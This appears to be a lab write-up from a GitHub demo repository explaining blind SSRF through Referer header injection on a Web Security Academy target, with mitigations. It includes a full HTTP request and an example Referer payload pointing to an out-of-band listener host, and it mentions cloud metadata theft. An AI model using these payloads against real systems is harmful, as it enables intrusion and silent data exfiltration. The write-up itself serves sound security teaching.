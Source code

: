 # 📘 Scenario 3: Blind SSRF via `Referer` Header Injection

## 🔎 Vulnerability Description

In this scenario, the web application processes the `Referer` header on the server-side (e.g., for analytics or logging) without validating or sanitizing it. This creates an opportunity for a **Blind SSRF** attack, where an attacker can supply a malicious domain as the referer and trigger a server-initiated request to an external, attacker-controlled server.

> **Vulnerability Type:** Header Injection, Blind SSRF  
> **OWASP Top 10 ID:** A10:2021 – Server-Side Request Forgery  
> **Risk Level:** Medium to High (depending on data exposure)  

---

## 💡 What is Blind SSRF?

Unlike regular SSRF, **Blind SSRF** does not return visible results to the attacker. Instead, the attacker must monitor a separate out-of-band (OOB) channel such as:

- DNS logs
- HTTP logs on their server
- Burp Collaborator

---

## 🔧 Target

**URL:**


🔗 https://0a4200da04e2f6f5804c8f7b00040056.web-security-academy.net/

---

## 📥 HTTP Request

```http
GET /product?productId=1 HTTP/2
Host: 0a4200da04e2f6f5804c8f7b00040056.web-security-academy.net
Cookie: session=mKM2R2mlh6jw3GAJtgpnanPqbYnkeGnu
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://sb760ch7a69bhm7gl79lnbdv1m7dv3js.oastify.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3585

```
---

## 🧪 Exploitation Steps

Generate a Burp Collaborator URL or set up a DNS/http logging server (e.g., `canarytokens.org`).

Send a request to the target endpoint with the `Referer` header pointing to your OOB listener:
```Referer: https://abcd1234.burpcollaborator.net```
Monitor Burp Collaborator for incoming DNS/HTTP requests from the vulnerable server.

Confirm SSRF behavior even if the browser shows no visible result.

## 💥 Potential Impact

- **Out-of-band data exfiltration**: Sensitive data can be extracted silently.

- **Cloud metadata theft**: If combined with access to URLs like `http://169.254.169.254`.

- **Reconnaissance**: Discover internal network behavior based on DNS queries.

- **Precursor to RCE or lateral movement**.

## ✅ Mitigation Suggestions
- Do not rely on client-supplied headers like `Referer`, `Host`, or `X-Forwarded-For`.

- Validate and sanitize all input headers.

- Use allowlists for outbound traffic destinations.

- Monitor logs for abnormal external requests triggered from internal services.

## 📸 Screenshot

![Exploitation Image Of Scenario 3](https://github.com/hovikhanh/ssrf-demo/images/Picture3.png "Exploitation Image Of Scenario 3")

## 🔗 References

[OWASP Testing Guide – Testing for SSRF](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)

[Burp Collaborator Guide](https://portswigger.net/burp/documentation/collaborator)

> ⚠️ This scenario simulates Blind SSRF and requires external monitoring. Always test in authorized environments only.